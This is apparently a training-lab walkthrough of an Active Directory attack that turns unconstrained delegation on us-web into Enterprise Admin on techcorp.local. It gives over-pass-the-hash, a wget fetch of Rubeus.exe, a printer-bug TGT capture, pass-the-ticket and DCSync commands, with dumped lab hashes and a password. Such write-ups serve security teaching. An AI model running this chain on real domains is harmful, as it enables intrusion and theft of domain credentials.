









# Hands-on 18: Unconstrained Delegation to Enterprise Admin

- [Hands-on 18: Unconstrained Delegation to Enterprise Admin](#hands-on-18-unconstrained-delegation-to-enterprise-admin)
  - [Task](#task)
  - [Abuse the Unconstrained Delegation on us-web to get Enterprise Admin privileges on techcorp.local](#abuse-the-unconstrained-delegation-on-us-web-to-get-enterprise-admin-privileges-on-techcorplocal)

---

## Task

Abuse the Unconstrained Delegation on us-web to get Enterprise Admin privileges on techcorp.local.

<br/>

---

## Abuse the Unconstrained Delegation on us-web to get Enterprise Admin privileges on techcorp.local

Most of the steps are the same as [Hands-on 11](l11-UnconstrainedDelegation.md).

<br/>

Webmaster's credential:

Note:
`us\webmaster`
- Password: `0wnerOftheIntraNetz`
- AES256: `2a653f166761226eb2e939218f5a34d3d2af005a91f160540da6e4a5e29de8a0`
- NTLM: `23d6458d06b25e463b9666364fb0b29f`

Use Over-Pass-the-Hash:

```
C:\AD\Tools\SafetyKatz.exe "sekurlsa::pth /domain:us.techcorp.local /user:webmaster /aes256:2a653f166761226eb2e939218f5a34d3d2af005a91f160540da6e4a5e29de8a0 /run:powershell.exe" "exit"
```

  

<br/>

In the newly spawned shell, use `winrs` to access `us-web`:

```
winrs -r:us-web.us.techcorp.local cmd.exe
```

  


<br/>

On `us-web`, download `Rubeus.exe` from the local machine:

```
powershell -ep bypass
```

```
cd C:\Users\Public; wget http://192.168.100.64/Rubeus.exe -OutFile .\Rubeus.exe
```

  


<br/>

On `us-web`, use `Rubeus.exe` to listen for TGT:

```
.\Rubeus.exe monitor /target:techcorp-dc$ /interval:5 /nowrap
```

  

<br/>

On the local machine, trigger the Printer bug so the forest DC `techcorp-dc` sends a TGT to `us-web`:

```
.\MS-RPRN.exe \\techcorp-dc.techcorp.local \\us-web.us.techcorp.local
```

<br/>

`Rubeus.exe` found a TGT from `techcorp-dc$`:

  

```
[*] 1/23/2021 10:48:35 AM UTC - Found new TGT:

  User                  :  TECHCORP-DC$@TECHCORP.LOCAL
  StartTime             :  1/23/2021 1:35:57 AM
  EndTime               :  1/23/2021 11:35:57 AM
  RenewTill             :  12/31/1969 4:00:00 PM
  Flags                 :  name_canonicalize, pre_authent, forwarded, forwardable
  Base64EncodedTicket   :

doIFUzCCBU+gAwIBBaEDAgEWooIETjCCBEphggRGMIIEQqADAgEFoRAbDlRFQ0hDT1JQLkxPQ0FMoiMwIaADAgECoRowGBsGa3JidGd0Gw5URUNIQ09SUC5MT0NBTKOCBAIwggP+oAMCARKhAwIBAqKCA/AEggPs/BY9VQzKHdcjIcHV14JMWmR3a8wi95XavxYdUpt1kupx97QyDLSzLlb2eEE+lmK8JdMDOz9h1cXwSeLS0JB/5rbW4pzkwE/aiezoP4FSO5kfBipROdOVLuk/DfcFWFpo1NfrIi6t7Pq7Jr98pD+qD9EdybM/3asBchcA1+LF3y7wL779UasbuHYdjfuo4fwXeSSEjhGghm0D2b2i+vP6e2W/UrDDi0xPUQp/OenGoLtP95lk5P/YP7JIc2uGl9jfoipIFAxcFVe7JjNK8A4pGSJyZHIykrN8ZiGtMqXTMG4nxLjp2sNhMTzMqaXN6TMNr7ShMIgMc4wIUzNjBAqMwuUNSY22CGxJQjoGYQ5BiK7huRJ23iU3A7nDnKYsFqPaIjt6CoUHTDR1XdoIk5873Nqx+x0/LZHBwRtrL5SJeQschEwxM85ktDHmLKWvd+IQFnqOVsWOEMatyiBJWZGqUK2udwtk6VFPnbiXtYfle7NFjFKzF7ySuVNv2oWzInKmdGs8wsYhodvU9Bn+tVaSlzaOItMLfMtWSzRTYX4lcvvqWXQFruL1nxXT1dz6CcoDH3wQpTY2zjmwXnwVa8MyU8dbwLA0vmpKXztZDGii3Ol0KZc8Ysq2IiqL+rcbD37B3mxvjeRWTTLyZ2jG86VHxjg5hTwHRXyG4lhEP6H6jTc3QsmSjaqbU1K6LoUBe5FoKe64+NHOWoNp+mF+89QuNcNRpiL5Nah1ZzYlFJLn+SghXf4/lITwdWqKkJ4umOtIZzTWCDyZ5W/47mzgXAufHgbhp+jFtHvnU6/8zsIG9JCxxp39hI34kuQTzp8PW59AibyUGeuY354cLrOwjuuyGgdryTl6ArHJPJsIAw/XmRCVl/MYAEqiwdhH5kS/78cB7f/Mab9yMh7FT96PB+zkeyb2kdDvxOswR/u0h6Sxc5gUqIF7HvUzItMtgfNmAXp5oYVv9rkZWg9+7QQ9KGXQQ/g7Ub6Z2KRYkx9S2tymKAbzdPf13C3ybVspTPSNqlytD5AfW2KKY30+rqOovmrULhl16HhZOLlgIQNkfolBHJMTxzhWN1bzcJE+hrB67xFgOKoa6GPZMDPXj8DVcZ6jlrEoxRJFgrw0F+SO6vlWJq/8S+BCuNrwUUjlkMJdZNKNEkGcwl24aawbGXBDiHfUrEEG6ks3+5wnz3wZPv321x1kWh/g3bQPmIVKlN+9n/Wx+Gco7xaH6PKNwwJCpcOGJeNRkm2Msc8EL/vOHI/vCdRAmiDvedVNaIFaJztMMjOe7X6+sa9wIMiV9ZkLxR0PVOjAtVlQMDGzf6IM7waZ4/TNYIXzIHqJI0t/lXejgfAwge2gAwIBAKKB5QSB4n2B3zCB3KCB2TCB1jCB06ArMCmgAwIBEqEiBCAvoMRxdN6yMb3t55u4USzG5PDadncr1X9/MTyBMZfIt6EQGw5URUNIQ09SUC5MT0NBTKIZMBegAwIBAaEQMA4bDFRFQ0hDT1JQLURDJKMHAwUAYCEAAKURGA8yMDIxMDEyMzA5MzU1N1qmERgPMjAyMTAxMjMxOTM1NTdapxEYDzE5NzAwMTAxMDAwMDAwWqgQGw5URUNIQ09SUC5MT0NBTKkjMCGgAwIBAqEaMBgbBmtyYnRndBsOVEVDSENPUlAuTE9DQUw=

```


<br/>

On the local machine, use `Rubeus.exe` to pass the ticket:

```
.\Rubeus.exe ptt /ticket:doIFUzCCBU+gAwIBBaEDAgEWooIETjCCBEphggRGMIIEQqADAgEFoRAbDlRFQ0hDT1JQLkxPQ0FMoiMwIaADAgECoRowGBsGa3JidGd0Gw5URUNIQ09SUC5MT0NBTKOCBAIwggP+oAMCARKhAwIBAqKCA/AEggPs/BY9VQzKHdcjIcHV14JMWmR3a8wi95XavxYdUpt1kupx97QyDLSzLlb2eEE+lmK8JdMDOz9h1cXwSeLS0JB/5rbW4pzkwE/aiezoP4FSO5kfBipROdOVLuk/DfcFWFpo1NfrIi6t7Pq7Jr98pD+qD9EdybM/3asBchcA1+LF3y7wL779UasbuHYdjfuo4fwXeSSEjhGghm0D2b2i+vP6e2W/UrDDi0xPUQp/OenGoLtP95lk5P/YP7JIc2uGl9jfoipIFAxcFVe7JjNK8A4pGSJyZHIykrN8ZiGtMqXTMG4nxLjp2sNhMTzMqaXN6TMNr7ShMIgMc4wIUzNjBAqMwuUNSY22CGxJQjoGYQ5BiK7huRJ23iU3A7nDnKYsFqPaIjt6CoUHTDR1XdoIk5873Nqx+x0/LZHBwRtrL5SJeQschEwxM85ktDHmLKWvd+IQFnqOVsWOEMatyiBJWZGqUK2udwtk6VFPnbiXtYfle7NFjFKzF7ySuVNv2oWzInKmdGs8wsYhodvU9Bn+tVaSlzaOItMLfMtWSzRTYX4lcvvqWXQFruL1nxXT1dz6CcoDH3wQpTY2zjmwXnwVa8MyU8dbwLA0vmpKXztZDGii3Ol0KZc8Ysq2IiqL+rcbD37B3mxvjeRWTTLyZ2jG86VHxjg5hTwHRXyG4lhEP6H6jTc3QsmSjaqbU1K6LoUBe5FoKe64+NHOWoNp+mF+89QuNcNRpiL5Nah1ZzYlFJLn+SghXf4/lITwdWqKkJ4umOtIZzTWCDyZ5W/47mzgXAufHgbhp+jFtHvnU6/8zsIG9JCxxp39hI34kuQTzp8PW59AibyUGeuY354cLrOwjuuyGgdryTl6ArHJPJsIAw/XmRCVl/MYAEqiwdhH5kS/78cB7f/Mab9yMh7FT96PB+zkeyb2kdDvxOswR/u0h6Sxc5gUqIF7HvUzItMtgfNmAXp5oYVv9rkZWg9+7QQ9KGXQQ/g7Ub6Z2KRYkx9S2tymKAbzdPf13C3ybVspTPSNqlytD5AfW2KKY30+rqOovmrULhl16HhZOLlgIQNkfolBHJMTxzhWN1bzcJE+hrB67xFgOKoa6GPZMDPXj8DVcZ6jlrEoxRJFgrw0F+SO6vlWJq/8S+BCuNrwUUjlkMJdZNKNEkGcwl24aawbGXBDiHfUrEEG6ks3+5wnz3wZPv321x1kWh/g3bQPmIVKlN+9n/Wx+Gco7xaH6PKNwwJCpcOGJeNRkm2Msc8EL/vOHI/vCdRAmiDvedVNaIFaJztMMjOe7X6+sa9wIMiV9ZkLxR0PVOjAtVlQMDGzf6IM7waZ4/TNYIXzIHqJI0t/lXejgfAwge2gAwIBAKKB5QSB4n2B3zCB3KCB2TCB1jCB06ArMCmgAwIBEqEiBCAvoMRxdN6yMb3t55u4USzG5PDadncr1X9/MTyBMZfIt6EQGw5URUNIQ09SUC5MT0NBTKIZMBegAwIBAaEQMA4bDFRFQ0hDT1JQLURDJKMHAwUAYCEAAKURGA8yMDIxMDEyMzA5MzU1N1qmERgPMjAyMTAxMjMxOTM1NTdapxEYDzE5NzAwMTAxMDAwMDAwWqgQGw5URUNIQ09SUC5MT0NBTKkjMCGgAwIBAqEaMBgbBmtyYnRndBsOVEVDSENPUlAuTE9DQUw=
```

  

<br/>

(Note: This requires local admin / elevated shell) Then perform a DCSync to get the hashes of `krbtgt` and `administrator`:

```
.\SafetyKatz.exe "lsadump::dcsync /domain:techcorp.local /user:techcorp\krbtgt" "exit"
```

  

```
[*] Dumping lsass (720) to C:\Windows\Temp\test.txt
[+] Dump successful!

[*] Executing loaded Mimikatz PE

  .#####.   mimikatz 2.2.0 (x64) #19041 Dec 18 2020 22:37:12
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > https://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > https://pingcastle.com / https://mysmartlogon.com ***/

mimikatz(commandline) # lsadump::dcsync /domain:techcorp.local /user:techcorp\krbtgt
[DC] 'techcorp.local' will be the domain
[DC] 'Techcorp-DC.techcorp.local' will be the DC server
[DC] 'techcorp\krbtgt' will be the user account
[rpc] Service  : ldap
[rpc] AuthnSvc : GSS_NEGOTIATE (9)

Object RDN           : krbtgt

** SAM ACCOUNT **

SAM Username         : krbtgt
Object Security ID   : S-1-5-21-2781415573-3701854478-2406986946-502
Object Relative ID   : 502

Credentials:
  Hash NTLM: 7735b8be1edda5deea6bfbacb7f2c3e7
    ntlm- 0: 7735b8be1edda5deea6bfbacb7f2c3e7
    lm  - 0: 295fa3fef874b54f29fd097c204220f0

Supplemental Credentials:
* Primary:NTLM-Strong-NTOWF *
    Random Value : 9fe386f0ebd8045b1826f80e3af94aed

* Primary:Kerberos-Newer-Keys *
    Default Salt : TECHCORP.LOCALkrbtgt
    Default Iterations : 4096
    Credentials
      aes256_hmac       (4096) : 290ab2e5a0592c76b7fcc5612ab489e9663e39d2b2306e053c8b09df39afae52
```


Note:
techcorp\krbtgt
- SID: `S-1-5-21-2781415573-3701854478-2406986946-502`
- AES256: `290ab2e5a0592c76b7fcc5612ab489e9663e39d2b2306e053c8b09df39afae52`
- NTLM: `7735b8be1edda5deea6bfbacb7f2c3e7`

<br/>

```
.\SafetyKatz.exe "lsadump::dcsync /domain:techcorp.local /user:techcorp\administrator" "exit"
```

  

```
<snip>

SAM Username         : Administrator
Account Type         : 30000000 ( USER_OBJECT )
User Account Control : 00010200 ( NORMAL_ACCOUNT DONT_EXPIRE_PASSWD )
Account expiration   :
Password last change : 7/4/2019 2:01:32 AM
Object Security ID   : S-1-5-21-2781415573-3701854478-2406986946-500
Object Relative ID   : 500

Credentials:
  Hash NTLM: bc4cf9b751d196c4b6e1a2ba923ef33f
    ntlm- 0: bc4cf9b751d196c4b6e1a2ba923ef33f
    ntlm- 1: c87a64622a487061ab81e51cc711a34b
    lm  - 0: 6ac43f8c5f2e6ddab0f85e76d711eab8

Supplemental Credentials:
* Primary:NTLM-Strong-NTOWF *
    Random Value : f94f43f24957c86f1a2d359b7585b940

* Primary:Kerberos-Newer-Keys *
    Default Salt : TECHCORP.LOCALAdministrator
    Default Iterations : 4096
    Credentials
      aes256_hmac       (4096) : 58db3c598315bf030d4f1f07021d364ba9350444e3f391e167938dd998836883
```

Note:
techcorp\administrator
- SID: `S-1-5-21-2781415573-3701854478-2406986946-500`
- AES256: `58db3c598315bf030d4f1f07021d364ba9350444e3f391e167938dd998836883`
- NTLM: `bc4cf9b751d196c4b6e1a2ba923ef33f`

<br/>

With the credential of `techcorp\administrator`, we can obtain its privilege using Over-Pass-the-Hash:

```
.\SafetyKatz.exe "sekurlsa::pth /domain:techcorp.local /user:administrator /aes256:58db3c598315bf030d4f1f07021d364ba9350444e3f391e167938dd998836883 /run:powershell.exe" "exit"
```

  

<br/>

